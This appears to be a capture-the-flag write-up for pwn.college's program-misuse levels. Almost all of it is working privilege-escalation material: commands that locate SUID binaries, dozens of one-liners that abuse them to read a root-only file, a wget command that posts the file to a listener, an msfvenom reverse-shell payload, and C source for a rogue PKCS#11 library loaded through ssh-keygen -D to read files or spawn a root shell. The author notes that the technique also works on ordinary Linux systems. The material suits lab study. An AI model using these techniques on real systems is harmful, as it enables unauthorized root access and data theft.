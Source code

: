 
Find a program with SUID bit permission
```bash
$ find / -user root -perm -4000 -print 2>/dev/null 
$ find / -perm -u=s -type f 2>/dev/null 
$ find / -user root -perm -4000 -exec ls -ldb {} \;
```

Program candidates with privilege escalation sample for read only `/flag` permission for root user
```bash
$ env -S cat /flag
$ genisoimage -sort /flag
$ ar -q fake.ar /flag;cat fake.ar
$ echo "/flag" | cpio -o
$ find /flag -exec cat {} \;
$ setarch x86_64 cat /flag
$ whiptail --textbox /flag 10 60
$ tar -cvf fake.tar /flag;tar xf fake.tar -O
$ tar cvf /flag -I; cat flag.tar
$ tar xf /flag -I '/bin/sh -c "cat 1>&2"'
$ socat - /flag
$ cp /flag /dev/stdout
$ mv /usr/bin/cat /usr/bin/mv; mv /flag
$ perl -ne print /flag
$ python -c 'print(open("/flag").read())'
$ bash -p
$ date -f /flag
$ gcc -E -x c /flag
$ bzip2 /flag; bzip2 -dc /flag.bz2
$ unzip -p flag.zip flag | less
$ find . -exec cat /flag {} \;
$ nice cat /flag
$ timeout 1 cat /flag
$ stdbuf -o 0 cat /flag
$ watch -x cat /flag
$ awk 'BEGIN{ while(( getline line<"/flag") > 0 ) { print line } }'
$ sed p /flag
$ dmesg -F /flag
$ wc --files0-from=/flag
$ as /flag
```

`ed`
```bash
$ ed /flag
> p
```

`wget`
```bash
$ nc -lvnp 4554 # terminal session 1
$ wget --post-file=/flag http://127.0.0.1:4554 # terminal session 2
```

`make`
Create a Makefile with the content:
```make
FLAG := $(shell cat /flag) 
ok: 
	echo $(FLAG)
```

```bash
$ make -f Makefile
```

`ruby`
Create a ruby script with the content:
```ruby
readData = File.read("/flag") 
puts readData
```

```bash
$ ruby script.rb
```

`ssh-keygen` ? yes with `-D` parameter to load dynamic shared library

```bash
$ ssh-keygen -D ourlib2shell.so #write ORW dynamic shared library to read the flag
```

My first attempt was to generate a dynamic shared library from `msfvenom`
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=5100 -f elf-so -o lib2shell.so
```
and run `netcat` to terminal session 2.

```
./lib2shell.so does not contain expected string C_GetFunctionList
provider ./lib2shell.so is not a PKCS11 library
cannot read public key from pkcs11
```

The exploit won't work because `ssh-keygen -D ` expects pkcs11 library (maybe this will work in older version of `ssh`?) and `lib2shell.so` does not really implements pkcs11 interface.

Second attempt, going through [Sean Pesce's Research Blog](https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html)  that applies patches, also `hello.so` won't work so we need to write our own ORW that implements pkcs11 as our third attempt.

Third attempt, I found [jariq's pkcs11 projects](https://stackoverflow.com/a/65446632) , EMPTY-PKCS11 doesn't have `C_GetFunctionList` so I chose his minimal [PCKS11-MOCK](https://github.com/Pkcs11Interop/pkcs11-mock) and modified it to read the `/flag` or we can spawn a root shell.  To make this work modify the `C_Initialize` interface implementation with
```c
...
#include <stdio.h>
#include <unistd.h>
// #define SHELL_COMMAND "/bin/sh"
...

CK_DEFINE_FUNCTION(CK_RV, C_Initialize)(CK_VOID_PTR pInitArgs)
{
    puts("[pkcs11-mock by relro for pwn.college level 51 HARDDDDDDD]");
    printf("Reading the flag");
    // Read the /flag file
    char flag[500];
    FILE *fp;

    fp = fopen("/flag", "r");
    if (fp == NULL) {
        printf("Could not open file /flag");
        return 1;
    }
    fgets(flag, 500, fp);
    printf("Flag: %s\n", flag);

    // long long err = execl(SHELL_COMMAND, "/bin/sh", "-c", SHELL_COMMAND, NULL);
    // printf("Result: %lld\n", err);

    if (CK_TRUE == pkcs11_mock_initialized)
        return CKR_CRYPTOKI_ALREADY_INITIALIZED;
    IGNORE(pInitArgs);
    pkcs11_mock_initialized = CK_TRUE;
    return CKR_OK;
}
```

Then run `build/linux/build.sh` to build our `pkcs11-mock.so` and transfer it to our target ssh remote connection with `scp`.
```bash
$ scp -i key -r pkcs11-mock-x64.so hacker@dojo.pwn.college:/home/hacker/
```

Run the exploit to the target machine with 
```
hacker@program-misuse-level-51:~$ ssh-keygen -D ./pkcs11-mock-x64.so 
[pkcs11-mock by relro for pwn.college level 51 HARDDDDDDD]
Reading the flag
Flag: pwn.college{you_need_to_perform_this_okay?}

C_GetAttributeValue failed: 18
Enter PIN for 'Pkcs11Interop': 
```

It works, this will work also in your current linux machine with ssh-keygen. You better check your program's permissions and nuke them if needed so.

# References
https://pwn.college/fundamentals/program-misuse

https://hurricane618.me/2022/05/26/pwn-college-writeup-one/

https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html

https://github.com/Pkcs11Interop/pkcs11-mock

https://medium.com/@D00MFist/generate-keys-or-generate-dylib-loads-c99ed48f323d

https://stackoverflow.com/questions/65444761/how-to-go-about-writing-a-pkcs11-wrapper-around-my-device

